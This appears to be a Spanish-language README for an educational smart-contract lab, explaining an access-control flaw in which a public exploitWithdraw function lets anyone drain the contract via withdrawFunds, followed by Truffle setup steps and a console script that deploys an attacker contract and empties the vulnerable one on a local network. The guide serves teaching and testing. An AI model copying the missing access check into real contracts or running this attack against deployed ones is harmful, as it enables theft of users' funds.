 Explicación de la vulnerabilidad
La vulnerabilidad radica en la función exploitWithdraw que es pública, permitiendo que cualquiera llame a la función withdrawFunds, que transfiere todo el balance del contrato al msg.sender sin ninguna verificación adicional.

Guía para Crear y Probar la Vulnerabilidad
1. Clonar el repositorio:

  En primer lugar, asegúrate de tener instalado git y node.js. Luego, clona tu repositorio:
  bash: 
  git clone https://github.com/tu-usuario/vulnerable-smart-contract.git
  cd vulnerable-smart-contract

2. Instalar dependencias:
  Asegúrate de tener Truffle o Hardhat instalado. Si no, puedes instalarlo con:
  bash: 
  npm install -g truffle # O hardhat

  Después, instala las dependencias locales del proyecto:
  bash: 
  npm install

3. Desplegar contratos:
  Para compilar y desplegar los contratos, sigue estos pasos:

  En truffle-config.js o hardhat.config.js, configura la red local.

  Despliega el contrato vulnerable:
  bash : 
  truffle migrate --reset

4. Interactuar con los contratos:
  Una vez que los contratos estén desplegados, puedes interactuar con ellos usando la consola de Truffle:
  bash : 
  truffle console

  En la consola, realiza los siguientes pasos para simular el ataque:
  javascript
  // Asigna la dirección del contrato vulnerable
  let vulnerable = await VulnerableContract.deployed();

  // Deposita ETH en el contrato vulnerable
  await vulnerable.deposit({from: accounts[0], value: web3.utils.toWei('1', 'ether')});

  // Despliega el contrato atacante
  let attacker = await Attacker.new(vulnerable.address);

  // Ejecuta el ataque
  await attacker.attack({from: accounts[1]});

  // Verifica que los fondos han sido retirados
  let newBalance = await vulnerable.balance();
  console.log("Balance del contrato vulnerable después del ataque:", newBalance.toString());

